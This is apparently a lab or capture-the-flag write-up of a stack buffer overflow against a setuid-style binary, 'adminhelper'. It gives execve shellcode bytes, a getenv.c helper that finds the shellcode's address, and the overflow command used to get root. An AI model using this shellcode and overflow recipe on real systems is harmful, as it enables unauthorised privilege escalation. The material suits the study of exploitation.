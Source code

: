 shellcode:

    \x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05

Leading us to getenv.c

    /* yaojingguo commented on Nov 8, 2016The code is from Page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition . */                 
    
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    
    int main(int argc, char *argv[]) {
            char *ptr;
    
            if(argc < 3) {
                    printf("Usage: %s <environment variable> <target program name>\n", argv[0]);                                                  
                    exit(0);
            }
            ptr = getenv(argv[1]); /* get env var location */
            ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */                                                           
            printf("%s will be at %p\n", argv[1], ptr);
    

this try to inject an environment variable into the program. Use this script to find an injectable address

Create an variable via export with shellcode from above. In the end this will return the exploit address of the shell code.

    export SHELLCODE=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`

see the variable created in env

    env

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552840405389_image.png)


after compiling the getenv.c to an application we will execute the variable within the application

    ./getenv SHELLCODE ./adminhelper

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552840526543_image.png)


results in our shellcode being placed at `0x7fffffffed68`


# Root

next, we run the ./adminhelper with our initial payload of “A” and add our return address to our shellcode in little  little endian format.


    ./adminhelper AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x68\xed\xff\xff\xff\x7f
    